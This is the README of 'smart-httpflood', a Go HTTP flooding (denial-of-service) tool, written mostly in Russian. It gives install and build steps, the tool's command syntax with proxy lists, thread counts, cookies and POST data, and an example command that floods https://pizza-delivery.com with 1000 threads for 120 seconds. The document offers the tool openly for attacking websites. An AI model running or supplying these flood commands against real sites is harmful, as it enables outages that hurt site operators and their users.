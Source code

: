 # smart-httpflood
Простой http флуддер(DoS) на Go

This script supports HTTP Version, Cookie and Post Data.
<h4>Поддерживает:</h4>
HTTP, куки, POST запросы
Установка:
Зависит от вашей платформы. Поддерживает Termux и Linux
<b>Termux:</b>
<code>pkg install golang</code>

<b>Manjaro Linux(Arch дистры):</b>
<code>sudo pacman -S go</code>

<b>Kali Linux(Debian дистры, если что Ubuntu к ним относится):</b>
<code>sudo apt install golang</code>

Далее для всех платформ одинаковые команды:
<code>git clone https://github.com/ret7020/smart-httpflood/</code>
<code>cd smart-httpflood</code>
<code>go build</code>

<h4>Использование</h4>

<b>Формат команды:</b>
<code>./StresserUS version=<version> host=<host> domain=<host header> limit=<rs-ip> time=<time> list=<proxies.txt> threads=<threads> mode=GET/POST cookie=<ddos=true> data=<post=true></code>

  Пример команды:
 <code>./StresserUS version=2 host=https://pizza-delivery.com limit=64 time=120 list=proxy.txt threads=1000 mode=GET</code>
